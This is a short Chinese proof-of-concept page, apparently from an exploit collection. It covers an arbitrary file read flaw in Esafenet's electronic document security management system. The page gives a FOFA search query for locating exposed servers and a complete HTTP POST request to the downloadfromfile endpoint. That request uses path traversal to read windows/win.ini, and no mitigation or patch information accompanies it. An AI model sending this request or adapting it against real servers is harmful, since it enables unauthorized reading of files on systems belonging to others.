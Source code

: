 # 亿赛通电子文档安全管理系统downloadfromfile存在任意文件读取漏洞
## 资产搜索
fofa：`title="电子文档安全管理系统"`

![](img/index.png)

## POC
```url
POST /CDGServer3/downloadfromfile HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Content-Type: application/x-www-form-urlencoded

fileName=../../../../../../../../../../../windows/win.ini
```

![](img/fileRead.png)